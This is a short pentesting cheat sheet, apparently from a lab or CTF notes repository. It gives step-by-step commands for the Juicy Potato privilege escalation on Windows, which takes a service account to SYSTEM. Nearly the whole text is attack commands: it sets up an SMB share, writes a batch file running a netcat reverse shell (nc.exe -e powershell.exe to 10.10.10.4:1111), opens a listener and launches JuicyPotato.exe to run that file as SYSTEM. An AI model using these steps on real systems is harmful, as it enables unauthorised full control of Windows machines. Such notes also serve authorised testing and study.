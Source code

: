 # Juicy Potato: From Service Accounts to SYSTEM

1. Download [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/)
2. Start SMB server for the purpose of file sharing

        $ smbserver.py -smb2support share ./

3. Create a batch file `nc_reverse_shell.bat` that will return a SYSTEM shell on execution

        echo START \\\\10.10.10.4\\share\\nc.exe -e powershell.exe 10.10.10.4 1111 > nc_reverse_shell.bat

4. Start a listener 

        nc -nlvp 1111

5. Trigger the attack

        \\10.10.10.4\share\JuicyPotato.exe -t * -p \\10.10.10.4\share\nc_reverse_shell.bat -l 1337

## References

* https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato
* [Rotten Potato: Windows Server 2016 OS](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
* https://hunter2.gitbook.io/darthsidious/privilege-escalation/juicy-potato